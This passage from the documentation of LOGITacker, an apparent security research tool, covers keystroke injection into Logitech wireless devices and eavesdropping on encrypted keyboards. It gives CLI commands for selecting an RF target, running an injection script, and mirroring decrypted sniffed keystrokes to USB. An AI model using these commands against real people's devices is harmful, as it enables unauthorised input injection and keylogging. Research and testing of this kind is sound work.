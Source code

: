 In order to inject the "calc_win7" script (which should already be loaded), two steps are needed:

1) Select the injection target (tab completition available)
2) Execute the injection

This is done with the following commands (RF address of the device is only an example):

```
LOGITacker (passive enum) $ inject target AE:C7:93:48:36 
parameter count 2
Trying to send keystrokes using address AE:C7:93:48:36
LOGITacker (passive enum) $ inject execute 
```

Once the script has finished execution, LOGITacker changes back from "injection" mode to "discover" mode.
This behavior could be changed using the following command:

```
LOGITacker (injection) $ options inject onsuccess 
onsuccess - action after successful injection
Options:
  -h, --help  :Show command help.
Subcommands:
  continue      :stay in injection mode.
  active-enum   :enter active enumeration
  passive_enum  :enter active enumeration
  discover      :enter discover mode
LOGITacker (injection) $ options inject onsuccess continue 
LOGITacker (injection) $ options store 
```

## 3.5 Eavesdropping encrypted devices (keyboards)

The process for eavesdropping follows the same steps as described for the "encrypted injection".

The link encryption key for a device has either to be added manually (could be extracted from receivers with unrestricted
version of `munifying`, once released) or to be obtained from sniffing of device pairing.

As pointed out in the previous chapter, passive_enum automatically decrypts received key reports for devices with known
key. Reading the keys from the CLI output isn't really convenient. To overcome this, LOGITacker allows forwarding of
decrypted or plain keyboard and mouse frames sniffed in passive_enum mode to its USB interface. The reports are 
translated to proper USB HID reports. Thus, the input is ultimately mirrored to the USB host which has LOGITacker 
connected.

The respective options could be enabled with the following commands:

```
LOGITacker (passive enum) $ options passive_enum pass-through-mouse on
passive_enum USB mouse pass-through: on
LOGITacker (passive enum) $ options passive_enum pass-through-keyboard on
passive_enum USB keyboard pass-through: on   
```
